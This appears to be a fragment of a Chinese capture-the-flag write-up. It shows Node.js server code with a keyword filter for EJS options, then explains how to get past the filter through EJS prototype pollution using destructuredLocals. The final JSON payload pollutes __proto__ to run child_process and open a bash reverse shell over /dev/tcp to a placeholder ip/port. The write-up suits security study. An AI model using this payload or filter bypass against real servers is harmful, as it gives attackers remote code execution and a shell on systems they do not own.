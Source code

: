 ```plain
                }else{
                    fs.rename(__dirname+"/uploads/"+oldFileName, __dirname+"/uploads/"+newFileName, (err) => {
                        if (err) {
                            res.send('文件重命名失败！');
                        } else {
                            res.send('文件重命名成功！');
                        }
                    });
                }
            }else{
                res.send('文件重命名失败！');
            }

        }else{
            res.send('哒咩哒咩！');
        }

    }else{
        res.send('文件重命名失败！');
    }
});
function findKeyByValue(obj, targetValue) {
    for (const key in obj) {
        if (obj.hasOwnProperty(key) && obj[key] === targetValue) {
            return key;
        }
    }
    return null; // 如果未找到匹配的键名，返回 null 或其他标识
}
function waf(data) {
            data = JSON.stringify(data)
            if (data.includes('outputFunctionName') || data.includes('escape') || data.includes('delimiter') || data.includes('localsName')) {
                return false;
            }else{
                return true;
            }
}
//设置 http
var server = app.listen(8888,function () {
    var port = server.address().port
    console.log("http://127.0.0.1:%s", port)
});
```

打 ejs 原型链污染 rce 过滤了 `outputFunctionName`，`escape`，`delimiter`，`localsName`

还可以用 destructuredLocals

```plain
{"oldFileName":"a.txt","newFileName":{"__proto__":{ "destructuredLocals":["__line=__line;global.process.mainModule.require('child_proce ss').exec('bash -c \"bash -i >& /dev/tcp/ip/port 0>&1\"');//"] }},"uuid":"5769140e-b76b-419a-b590-9630f023bdd7"}
```

